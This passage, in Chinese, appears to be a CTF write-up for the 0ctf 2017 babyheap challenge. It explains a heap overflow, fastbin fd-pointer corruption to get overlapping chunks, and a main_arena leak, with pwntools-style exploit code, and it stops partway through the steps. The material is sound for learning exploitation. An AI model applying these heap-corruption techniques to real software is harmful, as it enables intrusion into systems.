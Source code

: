 4. main_arena结构示意图（白嫖：https://www.52pojie.cn/thread-1467962-1-1.html）：

   ![image-20240711165914940](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217768.png)

## 题解：

题目地址：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#0ctf_2017_babyheap)

1. 程序使用一个结构体数组来存储堆的指针、大小、释放被使用等信息，可以将结构体补充上去：

   ![image-20240711160314378](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217965.png)

   ![image-20240711160244931](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217222.png)

2. fill函数存在堆溢出，可以利用这个漏洞实现double free，配合dump函数泄漏main_arena地址：

   ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217965.png)

3. free函数中将堆指针清0，不能使用UAF：

   ![image-20240711160518623](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217589.png)

4. 利用过程：

   * 先申请4个小chunk，一个大chunk，再释放chunk1和chunk2，chunk2 用来修改fd，指向chunk4，来达到double free的效果：

   ```python
   add(0x10,b'a')    #0
   add(0x10,b'b')    #1 作为修改fd，指向chunk4的牺牲品
   add(0x10,b'c')    #2 用来修改fd，指向chunk4
   add(0x10,b'd')    #3 用来恢复chunk4的size字段
   add(0x80,b'e')    #4 small chunk用来得到main_arena地址
   
   free(1)
   free(2)
   
   #修改chunk2的fd指针，指向chunk4
   payload = p64(0)*3 + p64(0x21)+p64(0)*3+p64(0x21)+p8(0x80)
   fill(0,payload)
   ```

   修改前，chunk2的fd指向chunk1：

   ![image-20240711161110921](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217031.png)

   修改后，chunk2的fd指向chunk4（此时chunk4并没有被释放，所以再申请回去就能达成了double free，两个指针指向同一个chunk）：

   ![image-20240711161147880](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407141217813.png)

   * 利用堆溢出修改chunk4的size字段，来绕过malloc 的检查：

   ```python
   #修改chunk4的size字段，申请时绕过fastbin的检查
   payload = p64(0)*3+p64(0x21)
   fill(3,payload)
   ```
